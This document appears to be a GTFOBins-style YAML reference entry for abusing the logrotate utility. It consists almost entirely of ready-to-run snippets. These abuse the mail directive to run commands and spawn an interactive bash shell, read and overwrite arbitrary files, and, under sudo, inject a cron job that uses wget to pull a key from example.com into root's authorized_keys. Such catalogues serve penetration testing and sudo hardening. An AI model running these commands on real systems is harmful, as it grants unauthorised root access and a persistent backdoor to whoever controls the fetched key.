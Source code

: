 ```yaml
---
functions:
  command:
    - description: Requires a logrotate policy which uses the `mail` directive. A hash should be used as the final character in the command, as it is run with a few arguments.
      code: |
        COMMAND='id &> /tmp/output #'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        logrotate -m "$TF" -v -f logrotate.policy
  shell:
    - description: Requires a logrotate policy which uses the `mail` directive.
      code: |
        COMMAND='/usr/bin/bash -i #'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        logrotate -m "$TF" -v -f logrotate.policy
  file-write:
    - description: Creates or overwrites the file with the exact text `logrotate state -- version 2`
      code: |
        LFILE=file_to_write
        logrotate -s "$LFILE" logrotate.policy
    - description: Creates or overwrites the file with junk data in combination with arbitrary data.
      code: |
        LFILE=file_to_write
        DATA=data_to_write
        logrotate -l "$LFILE" "$DATA"
  file-read:
    - description: Reads the first 'word'.
      code: |
        LFILE=file_to_read
        logrotate "$LFILE"
  sudo:
    - description: If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access. Note that this will overwrite `/etc/cron.daily/man-db` with a cronjob.
      code: sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;wget https://example.com/ssh.key -O /root/.ssh/authorized_keys2; exit 0;'
---
```

